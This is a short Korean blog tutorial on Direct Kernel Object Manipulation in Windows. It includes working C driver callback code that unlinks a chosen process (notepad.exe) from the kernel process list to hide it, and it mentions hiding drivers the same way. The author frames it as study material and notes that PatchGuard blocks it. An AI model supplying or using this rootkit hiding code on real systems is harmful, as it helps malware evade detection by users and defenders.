 ```yaml
---
title: Direct Kernel Object Manipulation
published: 2024-11-27
description: 'PatchGuard가 없는 시대에 최강이었던 범부여..'
tags: [ Kernel ]
category: 'Windows'
draft: false 
---
```


쓸 게 없어서 고등학교 1학년 때 조사한 걸 올린다.

# [0x01] 개념

DKOM은 줄임말로, **D**irect **K**ernel **O**bject **M**anipulation의 줄임말이다. 이름에서 서술하듯이 커널 오브젝트를 다이렉트로 조작하는 것을 말한다.

우리는 이 개념을 이용해서 하나의 프로세스를 스텔스 프로세스로 만들 것이다.

Windows에서 프로세스 하나는 구조체 `EPROCESS`에 대응되는데, 이 구조체 안에 `SessionProcessLink` 멤버가 있다. 이는 프로세스 리스트를 순회하기 위해 만들어진 멤버이다.

이 멤버는 LIST_ENTRY 구조체인데, 이는 전 노드(`Blink`)와 후 노드(`Flink`)를 저장하는 엔트리이다. 자세한 개형:

```cpp
typedef struct _LIST_ENTRY {
  struct _LIST_ENTRY *Flink;
  struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY, PRLIST_ENTRY;
```

여기서 프로세스를 숨기기 위해 타겟 프로세스의 `Flink` 와 `Blink` 를 바꾸는 작업을 수행할 수 있다.

# [0x02] 특징

`Flink` 와 `Blink` 를 바꾸는 작업은 회귀 불가적 성격을 띄기 때문에 탐지하기가 정말 어렵다.

DKOM은 그 개념 자체가 방대하여 프로세스를 숨기는 것 말고도 다른 용도로 쓰일 수 있다.

예를 들어, 프로세스 내의 쓰레드 또한 이러한 방법으로 숨길 수 있고, 로드된 커널 드라이버도 숨길 수 있다.

# [0x03] 구현

우선 우리는 프로세스가 생성될 때 만약 우리가 원하는 프로세스라면 DKOM을 하고 싶을 것이다. 이를 위한 아주 좋은 기술인 `ObRegisterCallbacks` 함수가 있다. 자세한 정보와 구현을 알고 싶다면 [여기](https://shhoya.github.io/antikernel_processprotect.html) 에 자세히 나와있으니 참고하기 바란다.

여기 `ObRegisterCallbacks` 에서 프로세스의 핸들을 제작할 때 콜백을 걸어서 추가적인 작업을 수행할 수 있다.

`GetOffset` 관련 함수는 [Portable EPROCESS Struct Offset](https://www.notion.so/Portable-EPROCESS-Struct-Offset-4caaaf432c474196a652e26a79646e67?pvs=21) 에 나와있다.

```c
void PostCallback(PVOID RegistrationContext, POB_POST_OPERATION_INFORMATION pOperationInformation)
{
	UNREFERENCED_PARAMETER(RegistrationContext);
	UNREFERENCED_PARAMETER(pOperationInformation);

	PLIST_ENTRY pListEntry = { 0, };
	char szProcName[16] = { 0, };
	strcpy_s(szProcName, 16, ((DWORD64)pOperationInformation->Object + iOffset.ImageFileName_off));
	if (!_strnicmp(szProcName, "notepad.exe", 16)) // to your process name
	{
		pListEntry = ((DWORD64)pOperationInformation->Object + iOffset.ActiveProcessLinks_off);
		if (pListEntry->Flink != NULL && pListEntry->Blink != NULL)
		{
			pListEntry->Flink->Blink = pListEntry->Blink;
			pListEntry->Blink->Flink = pListEntry->Flink;
			DbgPrintEx(DPFLTR_ACPI_ID, 0, "[+] The process is now Stealth");
			pListEntry->Flink = 0;
			pListEntry->Blink = 0;
		}
	}

	DbgPrintEx(DPFLTR_ACPI_ID, 0, "[+] Post Callback Routine");
}
```

밑의 사진을 보면 Process Explorer에 notepad.exe를 검색했는데 안 나오는 것을 보아 우리의 Stealth Process가 잘 만들어진 것 같다.

![Untitled](/dkom/Untitled.png)

## [0x3-A] Stealth Driver

드라이버 목록을 후킹할 때는 `ObRegisterCallbacks` 함수를 이용 안 해도 되고, `PsLoadedModuleList` 를 직접 DKOM 하면 된다. (더 쉬움)

# [0x4] 한계

PatchGuard는 DKOM을 엄격하게 잡는다. DKOM은 안 먹히니 공부용 목적으로만 사용하도록 하자.